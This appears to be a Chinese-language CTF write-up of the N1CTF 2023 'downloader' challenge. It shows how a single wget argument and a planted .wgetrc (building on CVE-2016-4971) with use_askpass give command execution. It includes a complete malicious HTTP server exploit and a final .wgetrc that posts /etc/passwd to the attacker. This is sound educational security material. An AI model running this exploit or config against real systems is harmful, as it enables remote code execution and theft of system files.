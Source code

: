 ```yaml
---
layout: post
title: "wget只能有一个参数? 给你rce了"
---
```


*题目源自于2023年的n1ctf, 名为downloader*

~~老鱼我没爆零~~

## 步骤
从题目可以看出, 程序使用了wget下载文件, 但是并不会给予任何回显
```c
          iVar2 = open("/dev/null",0x41,0x1b6);
          dup2(iVar2,1);
          dup2(iVar2,2);
          execlp("wget","wget",auStack_128,0);
```

初步计划写入`/etc/cron.d`以达到rce目的, 但是execlp仅接收1个参数作为函数参数, 其man内容如下

>    l - execl(), execlp(), execle()

>       The const char *arg and subsequent ellipses can be thought of as arg0, arg1, ..., argn.  Together they describe a list of  one  or  more  pointers  to  null-terminated

>       strings  that  represent the argument list available to the executed program.  The first argument, by convention, should point to the filename associated with the file

>       being executed.  The list of arguments must be terminated by a null pointer, and, since these are variadic functions, this pointer must be cast (char *) NULL.

>       By contrast with the 'l' functions, the 'v' functions (below) specify the command-line arguments of the executed program as a vector.

但参数于第四个直接被截断, 于是理解为只能给wget传入一个参数, 可构成ssrf (但事后证明好像没啥用233)

在搜寻过程中, 发现了个古代漏洞: [CVE-2016-4971](https://nvd.nist.gov/vuln/detail/CVE-2016-4971), 以此获得灵感, 可通过控制`.wgetrc`以达成rce的目的

不幸的是, 靶机的有问题的程序的权限很低, 无法写入cron表达成rce目的, 同时也无人登录靶机, 故搜寻到`--use-askpass`参数 ([文档](https://github.com/mirror/wget/blob/9a35fe609c87c558153cff80fef7dea809b3cf63/doc/wget.texi#L1197-L1204))

在wget用到`--use-askpass`参数之前, wget需要遇到一次401错误以迫使其登录, 否则其头部不存在`Authorization`参数, 无法通过其进行命令执行

同时`--use-askpass`会直接使用其`stdout`的输出作为用户名和参数, 配合自定义的恶意服务端可直接泄漏出需要的东西, 而这里是flag

遂决定利用`.wgetrc`中`input = baka.txt`来省去url, 但很不幸, wget在有input的情况下完全绕过了`--use-askpass`的参数

苦苦在官方手册搜寻无果, 但最终还是从源码内的文档中注意到有如下几行:
```
You can set the default command for use-askpass in the @file{.wgetrc}.  That
setting may be overridden from the command line.
```

于是决定盲写一个
```
use_askpass=/readflag
```

  亡

  口

月贝凡

## 利用代码

其自建的恶意服务端如下
```python
#!/usr/bin/env python

#
# Wget 1.18 < Arbitrary File Upload Exploit
# Dawid Golunski
# dawid( at )legalhackers.com
#
# http://legalhackers.com/advisories/Wget-Arbitrary-File-Upload-Vulnerability-Exploit.txt
#
# CVE-2016-4971
#
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 23360

import http.server
import socketserver
import socket;

class wgetExploit(http.server.SimpleHTTPRequestHandler):
   def do_AUTHHEAD(self):
       self.send_response(401)
       self.send_header("WWW-Authenticate", 'Basic realm="Test"')
       self.end_headers()
   def do_GET(self):
       # This takes care of sending .wgetrc
       print(("We have a volunteer requesting " + self.path + " by GET :)\n"))

       print("Uploading .wgetrc via ftp redirect vuln. It should land in /root \n")
       self.send_response(200)
       self.end_headers()
       with open(".wgetrc", "r") as f:
           self.wfile.write(bytes(f.read(), 'utf8'))
           self.__staged = True

   def do_POST(self):
       if self.headers.get("Authorization") is None:
           self.do_AUTHHEAD()
           self.wfile.write(b"qwq")
           return
       print(self.headers.get("Authorization"))
       # In here we will receive extracted file and install a PoC cronjob
       print(("We have a volunteer requesting " + self.path + " by POST :)\n"))

       content_len = int(self.headers.get('content-length', 0))
       post_body = self.rfile.read(content_len)
       print(("Received POST from wget, this should be the extracted /etc/shadow file: \n\n---[begin]---\n %s \n---[eof]---\n\n" % (post_body)))

       print("Sending back a cronjob script as a thank-you for the file...")
       print("It should get saved in /etc/cron.d/wget-root-shell on the victim's host (because of .wgetrc we injected in the GET first response)")
       self.send_response(200)
       self.end_headers()
       with open("a.out", "rb") as f:
           self.wfile.write(f.read())

       print("\nFile was served. Check on /root/hacked-via-wget on the victim's host in a minute! :) \n")

       return


handler = socketserver.TCPServer((HTTP_LISTEN_IP, HTTP_LISTEN_PORT), wgetExploit)

print("Ready? Is your FTP server running?")

print(("Serving wget exploit on port %s...\n\n" % HTTP_LISTEN_PORT))

handler.serve_forever()
```

最终的wgetrc为下
```
post_file = /etc/passwd
use_askpass=/readflag
```

